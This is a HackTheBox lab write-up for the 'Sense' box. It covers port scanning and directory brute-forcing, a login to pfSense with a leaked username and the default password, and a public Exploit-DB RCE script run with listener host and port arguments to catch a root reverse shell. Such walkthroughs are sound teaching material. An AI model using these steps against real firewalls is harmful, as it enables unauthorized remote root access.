

# HTB - Sense

#### Ip: 10.10.10.60
#### Name: Sense
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. I'll include the `--min-rate 10000` flag, just to speed the scan up a bit.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:15 CDT
Nmap scan report for 10.10.10.60
Host is up (0.078s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

Looks like we've just got HTTP/HTTPS ports open here. Lets further enumerate by adding on the `-sV` and `-sC` flags to enumerate versions and use basic Nmap scripts.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -sC -sV -T4 10.10.10.60 -p 80,443  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:19 CDT
Nmap scan report for 10.10.10.60
Host is up (0.063s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

Based on the Nmap scan and confirming by navigating to the site, port 80 http redirects to https://10.10.10.60. From here we'll we're met with a pfSense login page:


pfSence is is an open source firewall software that is extremely common. From past history I know that the default credentials are admin:pfsense, and sometimes these aren't changed by admins. Unfortunately for us, it appears they've been changed. Looks like we'll need to enumerate further. 

After several directory busting scans, I wasn't coming up with anything juicy. At this point I'll usually just throw a hail Mary and toss the kitchen sink at it, hoping I uncover an interesting subdirectory to move forward with.

By including the `-x php,txt,html,zip` flags in GoBuster, I'm hoping to uncover something like /admin.php or something interesting like that.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k -x php,txt,html,zip
```

Here, I also need to use the `-k` flag to bypass the SSL certificate verification. 

After a long while I finally find something of value: https://10.10.10.60/system-users.txt


Nice! We now have a username, and knowing that the default password for pfSense is 'pfsense', we can login as Rohit.

Logging in we are greeted with an admin dashboard:


At this point lets take a look and see if we can identify any public exploits against this service. 

### Exploitation

There were so many options to choose from using Searchsploit, so I simply Googled pfsense 2.1.3 (Luckily for us one of the first bits of information in the admin dashboard is the installed version number) and found this exploit written in Python. https://www.exploit-db.com/exploits/43560

This appears to be a pretty straightforward script abusing a misconfiguration in 'status_rrd_graph_img.php' where we can upload a reverse shell back to our attacking machine. Looks like we only need to supply a few arguments before firing off the exploit:



Let's set up a netcat listener to catch a shell back on, and try the exploit out:

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ python pfsense-2.1.3-rce.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense 
CSRF token obtained
Running exploit...
Exploit completed
```

And back at our netcat listener we've caught a shell back as root! 


Nice! Because we caught the shell with root permissions, there's no need for privilege escalation. Lets grab the two flags for this box:


Thanks for following along!

-Ryan

-------------------------------------------------------------------------------------
